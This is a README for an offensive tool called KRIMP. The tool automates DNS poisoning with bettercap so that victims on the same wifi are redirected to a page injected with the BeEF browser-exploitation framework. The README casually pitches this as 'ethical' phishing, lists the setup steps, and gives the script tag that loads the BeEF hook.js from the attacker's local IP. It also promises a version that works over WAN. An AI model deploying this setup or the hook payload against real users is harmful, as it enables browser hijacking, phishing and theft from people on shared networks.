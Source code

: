 # KRIMP
```
                               ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                               ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                               ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                              ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                             ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                               ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                               ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                               ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                               ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

